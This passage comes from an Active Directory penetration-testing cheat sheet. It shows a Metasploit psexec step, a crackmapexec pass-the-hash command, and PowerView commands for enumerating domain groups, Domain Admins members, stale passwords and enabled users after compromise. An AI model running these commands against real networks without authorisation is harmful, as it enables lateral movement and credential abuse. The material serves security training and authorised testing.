 - PSExec

	Launch `msf` and use the `exploit/windows/smb/psexec` module. We just need to set the `SMBPass` and host parameters.
	
- SMB

	`poetry run crackmapexec smb IP -u user -H NTLM_hash  -d domain.local`


## Post exploitation 

### Enumeration

#### Powerview

Here is a full CheatSheet about what you can look for using PowerView (Thanks to HarmJ0y)

- Get all the groups a user is effectively a member of, 'recursing up' using tokenGroups

```powershell
Get-DomainGroup -MemberIdentity <User/Group>
```


-  Get all the effective members of a group, 'recursing down'

```powershell
Get-DomainGroupMember -Identity "Domain Admins" -Recurse
```


-  Use an alterate creadential for any function

```powershell
$SecPassword = ConvertTo-SecureString 'BurgerBurgerBurger!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a', $SecPassword)
Get-DomainUser -Credential $Cred
```


-  Retrieve all the computer dns host names a GPP password applies to

```powershell
Get-DomainOU -GPLink '<GPP_GUID>' | % {Get-DomainComputer -SearchBase $_.distinguishedname -Properties dnshostname}
```


-  Get all users with passwords changed > 1 year ago, returning sam account names and password last set times

```powershell
$Date = (Get-Date).AddYears(-1).ToFileTime()
Get-DomainUser -LDAPFilter "(pwdlastset<=$Date)" -Properties samaccountname,pwdlastset
```


-  All enabled users, returning distinguishednames

```powershell
Get-DomainUser -LDAPFilter "(!userAccountControl:1.2.840.113556.1.4.803:=2)" -Properties distinguishedname
Get-DomainUser -UACFilter NOT_ACCOUNTDISABLE -Properties distinguishedname
```
